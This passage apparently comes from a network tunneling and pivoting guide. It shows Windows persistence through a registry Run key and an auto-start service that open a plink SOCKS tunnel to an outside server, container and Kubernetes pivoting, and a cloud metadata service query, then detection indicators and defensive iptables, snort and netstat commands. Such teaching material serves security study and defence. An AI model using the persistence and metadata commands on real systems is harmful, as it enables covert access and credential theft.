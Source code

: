 ### 15.2 Windows-Specific Implementations

```cmd
REM Registry-based persistence
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v "Updater" /t REG_SZ /d "plink.exe -ssh -D 9050 -N user@server"

REM Service creation for persistence
sc create TunnelService binPath= "C:\Windows\System32\plink.exe -ssh -D 9050 -N user@server"
sc config TunnelService start= auto
```

### 15.3 Container and Cloud Environments

```bash
# Docker container pivoting
docker run -d --network host -v /tmp:/tmp tunnel-image

# Kubernetes pod networking
kubectl port-forward pod/pivot-pod 8080:80

# Cloud metadata service tunneling
curl -H "Metadata-Flavor: Google" http://169.254.169.254/computeMetadata/v1/instance/
```

## 16. Monitoring and Defensive Considerations

:::note
Defensive strategies and detection patterns provided here are examples; always tune IDS/IPS and SIEM rules to your organizational network profile and risk posture.
:::

### 16.1 Detection Signatures

Network defenders should monitor for the following indicators:

#### Connection Pattern Analysis:
- Unusual outbound connections on common ports (22, 80, 443)
- High-frequency connection attempts with regular intervals
- Connections to external hosts from internal segments
- Abnormal bandwidth utilization patterns

#### Protocol Analysis:
- SSH connections with unusual keep-alive patterns
- HTTP traffic with suspicious user agents or headers
- DNS queries to unusual domains or with high frequency
- TLS connections to self-signed or suspicious certificates

### 16.2 Defensive Countermeasures

```bash
# Network segmentation enforcement
iptables -A FORWARD -s 192.168.100.0/24 -d 192.168.200.0/24 -j DROP

# Deep packet inspection
snort -c /etc/snort/snort.conf -i eth0

# Connection monitoring
netstat -antlp | grep ESTABLISHED | awk '{print $5}' | cut -d: -f1 | sort | uniq -c | sort -nr
```
